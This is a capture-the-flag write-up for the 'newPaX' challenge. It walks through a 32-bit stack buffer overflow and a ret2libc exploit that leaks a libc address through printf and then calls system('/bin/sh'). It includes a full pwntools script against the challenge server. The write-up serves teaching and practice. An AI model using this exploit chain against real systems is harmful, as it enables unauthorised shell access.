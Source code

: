 # newPaX

> Even though Solar Designer gave you his times technique, you have to resolve(sort-out) yourself and go deeper. This time rope willn't let you have anything you want but you have to make a fake rope and get everything.
>
> nc pwn.darkarmy.xyz 5001

Thie corresponding 32-bit binary is provided.

## Description

By dissassembling it with Ghidra, we obtain the following vulnerable function:

```c
void vuln(void)
{
  undefined local_34 [44];
  
  read(0,local_34,200);
  return;
}
```

We have a nice buffer overflow available for us. Let's quickly check the security:

![checksec](../images/newpax_checksec.png)

NX enabled, so we cannot provide our own shellcode. However there is no canary (so we can directly jump where we want to) and no PIE will just make our exploit easier. 

A quick check with ROPgadget tells us there is not enough code in the binary to create a ROP chain. Therefore we'll resort to a **ret2lib** attack.

## Exploitation

The idea of the ret2lib attack is to create a ROP chain using library code. However, ASLR prevents us from knowing directly where to jump, so we first need to detect the library position. As no library is provided, we also need to know which one is used.

### Jump where we want

The first thing we need is to find the offset before we can put our jump address. I do this quite manually, using gdb.

Python script's relevant portion:

```python
sh.sendline('a'*44 + '111122223333444455556666')
sh.interactive()
```

![cyclic](../images/newpax_cyclic.png)

Therefore we know the jump address is to be placed instead of `3333`. We define `OFFSET = b'a'*52`.

### Disclose addresses of functions

Next, we want to disclose the address of libc functions when loaded. This will allow us to find the library used in the first time, and then to call system in the second time.

Here we are on a 32-bit system with parameters pushed on the stack, so we can put the addresses we want directly on the stack. Otherwise we would have to use a `POP RDI` gadget.

The exploit works as follow:
- put the PLT address of the function we want to get on the stack
- jump to printf function
- jump back to vuln to try again.

```python
elf = ELF(local_bin)

libc = ""
PRINTF_PLT = elf.plt['printf']
VULN_PLT = elf.symbols['vuln']

def get_addr(func_name):
    FUNC_GOT = elf.got[func_name]
    log.info(func_name + " GOT @ " + hex(FUNC_GOT))
    
    payload = OFFSET + p32(PRINTF_PLT) + p32(VULN_PLT) + p32(FUNC_GOT)
    sh.sendline(payload)
    
    recv = sh.read(4)
    leak = unpack(recv)
    log.info("Leaked libc address,  "+func_name+": "+ hex(leak))
    if libc != "":
        libc.address = leak - libc.symbols[func_name] #Save libc base
        log.info("libc base @ %s" % hex(libc.address))
    
    return hex(leak)

get_addr("printf")
```

### Which libc?

With the above function, we can disclose the addresses of functions. Using the [libc search database](https://libc.blukat.me/), we can find the correct version of the library used and download it. In our case:

```python
libc = ELF("./libc6-i386_2.27-3ubuntu1.2_amd64.so")
```

### Final exploitation

Now that we know which lib is used, we can open our shell. The idea: put the `/bin/sh` string on the stack, then call `system`.

```python
BINSH = next(libc.search("/bin/sh".encode()))
SYSTEM = libc.sym["system"]
EXIT = libc.sym["exit"]

payload = OFFSET + p32(SYSTEM) + p32(EXIT) + p32(BINSH)

sh.sendline(payload)
sh.interactive()
```

Flag: `darkCTF{f1n4lly_y0u_r3s0lv3_7h1s_w17h_dlr3s0lv3}`

## Full script

```python
from pwn import *

LOCAL = True
local_bin = './newPaX'
GDB = True

elf = ELF(local_bin)
rop = ROP(elf)

if LOCAL:
    s = ssh(host="2019shell1.picoctf.com", user="RugessNome")
    if GDB:
        sh = s.run("gdb " + local_bin, True)
        print(sh.recvuntil("(gdb)").decode())
        sh.sendline("b exit")
        print(sh.recvuntil("(gdb)").decode())
        sh.sendline("r")
        print(sh.recvuntil("PaX").decode())
        
    else:
        sh = s.run(local_bin)
    libc = "" # ELF("/lib/x86_64-linux-gnu/libc-2.31.so")
else:
    sh = remote('newpax.darkarmy.xyz', 5001)
    libc = ELF("./libc6-i386_2.27-3ubuntu1.2_amd64.so")

OFFSET = b'a'*52

# gadgets
PRINTF_PLT = elf.plt['printf']
VULN_PLT = elf.symbols['vuln']
RET = (rop.find_gadget(['ret']))[0]

log.info("Main start: " + hex(VULN_PLT))
log.info("Puts plt: " + hex(PRINTF_PLT))

def get_addr(func_name):
    FUNC_GOT = elf.got[func_name]
    log.info(func_name + " GOT @ " + hex(FUNC_GOT))
    
    payload = OFFSET + p32(PRINTF_PLT) + p32(VULN_PLT) + p32(FUNC_GOT)
    sh.sendline(payload)
    
    recv = sh.read(4)
    leak = unpack(recv)
    log.info("Leaked libc address,  "+func_name+": "+ hex(leak))
    if libc != "":
        libc.address = leak - libc.symbols[func_name] #Save libc base
        log.info("libc base @ %s" % hex(libc.address))
    
    return hex(leak)

get_addr("printf")

if libc == "":
    exit()

BINSH = next(libc.search("/bin/sh".encode())) #Verify with find /bin/sh
SYSTEM = libc.sym["system"]
EXIT = libc.sym["exit"]

log.info("bin/sh %s " % hex(BINSH))
log.info("system %s " % hex(SYSTEM))
log.info("exit %s " % hex(EXIT))

log.info("puts %s " % hex(libc.sym["puts"]))

payload = OFFSET + p32(SYSTEM) + p32(EXIT) + p32(BINSH)

if LOCAL and GDB:
    print(sh.recvuntil("(gdb)").decode())
    sh.sendline("b system")
    print(sh.recvuntil("(gdb)").decode())
    sh.sendline("c")

sh.sendline(payload)

sh.interactive()
```